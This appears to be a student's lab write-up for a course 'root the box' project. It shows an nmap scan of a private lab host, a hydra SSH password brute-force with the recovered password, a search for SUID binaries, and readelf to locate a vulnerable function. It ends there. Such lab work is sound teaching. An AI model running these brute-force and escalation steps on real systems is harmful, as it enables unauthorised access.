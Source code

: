 
# COMP 352 Final Project
**ROOT THE BOX** - Ethan Stoneman

## nmap scan
```
# Nmap 7.92 scan initiated Wed Nov 17 22:23:00 2021 as: nmap -sC -sV -p- -oN nmap/initial 192.168.101.137
Nmap scan report for 192.168.101.137
Host is up (0.00018s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT      STATE SERVICE VERSION
4321/tcp  open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.18 (Ubuntu)
13337/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 96:7b:27:7f:a3:6f:6b:af:23:e6:20:6d:44:69:0c:12 (RSA)
|   256 87:55:5a:6f:f9:1b:3e:41:5c:12:ca:13:03:11:33:e0 (ECDSA)
|_  256 5c:84:56:47:31:f6:78:89:5d:f1:ab:ea:e3:da:56:0d (ED25519)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed Nov 17 22:23:15 2021 -- 1 IP address (1 host up) scanned in 14.67 seconds
```

## brute-force ssh server with username 'user'
```bash
hydra -l user -P /usr/share/wordlists/rockyou.txt ssh://192.168.101.137:13337
```
> Password found: hjchoo

### found odd text file in home directory of user: peda-session-badcopy.txt
```
break /home/administrator/badcopy F21.c:36
```

## Find badly written code on server
```bash
find / -type f -executable -perm -4000 -name '*badcopy*' 2>/dev/null
```

## Find name of vulnerable function

### Version 1
```bash
readelf -s ./badcopy
```
> function name = filecopy
